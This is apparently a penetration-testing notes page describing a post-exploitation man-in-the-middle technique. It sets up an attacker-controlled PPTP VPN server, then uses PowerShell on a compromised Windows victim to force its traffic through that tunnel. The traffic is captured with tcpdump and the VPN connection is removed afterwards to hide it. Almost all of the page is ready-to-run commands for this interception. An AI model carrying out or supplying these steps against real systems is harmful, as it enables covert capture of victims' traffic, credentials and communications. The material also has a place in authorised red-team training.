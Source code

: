 # Living off the Land

Install the dependency according to your package manager.

```
# apt install -y pptpd
```

For `localip` just include the gateway IP and `remoteip` just specify the available IP ranges that isn't occupied in the current subnet network.

```
# cat /etc/pptpd.conf
localip 192.168.0.1
remoteip 192.168.0.234-238
..[omitted]..
```

Specify the credentials.

```
# cat /etc/ppp/chap-secrets
# Secrets for authentication using CHAP
# client	server	secret			IP addresses
<username>  *       <password>      *
```

Create the firewall rules to accept incoming and outgoing PPTP network traffic.

```
# iptables -t nat -A POSTROUTING -o enp7s0 -j MASQUERADE
iptables -A FORWARD -i ppp0 -o enp7s0 -j ACCEPT
iptables -A FORWARD -i enp7s0 -o ppp0 -m state --state ESTABLISHED,RELATED -j ACCEPT
```

Enable port forwarding.

```
# echo 1 > /proc/sys/net/ipv4/ip_forward
```

Restart PPTP daemon service and check network statistics for the listening port.

```
# systemctl restart pptpd

# ss -antpl | grep :1723
```

```
$ ip address show enp7s0

# ip route
```

Then execute post module to make the target connect to the attacker's VPN tunnel.

```
PS C:\> Add-VpnConnection -Name "<vpn_name>" -ServerAddress <VPN_server_IP> -TunnelType PPTP -EncryptionLevel Required -PassThru
```

```
PS C:\> Add-VpnConnection -Name "<vpn_name>" -ServerAddress <VPN_server_IP> -TunnelType L2TP -EncryptionLevel Required -PassThru -L2tpPsk "<password>" -Confirm:$false -Force
```

Then the victim should be authenticated in the attacker's VPN tunnel.

```
PS C:\> Get-VpnConnection -Name "<vpn_name>"
```

You can check the route network that contains the same configuration file (`/etc/pptpd.conf`) from `remoteip`.

```
metepreter > route
```

Intercept the packets.

```
# tcpdump -i <interface>
```

Delete the VPN connection.

```
PS C:\> Get-VpnConnection -Name "<vpn_name>" | Remove-VpnConnection -Force -Confirm:$false
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x08 - Maintaining Access/Gathering Information/Windows/WireTap/MITM/C2 Frameworks/Metasploit]]

### Microsoft

- [Powershell Module: `Add-VpnConnection`](https://learn.microsoft.com/en-us/powershell/module/vpnclient/add-vpnconnection?view=windowsserver2025-ps)
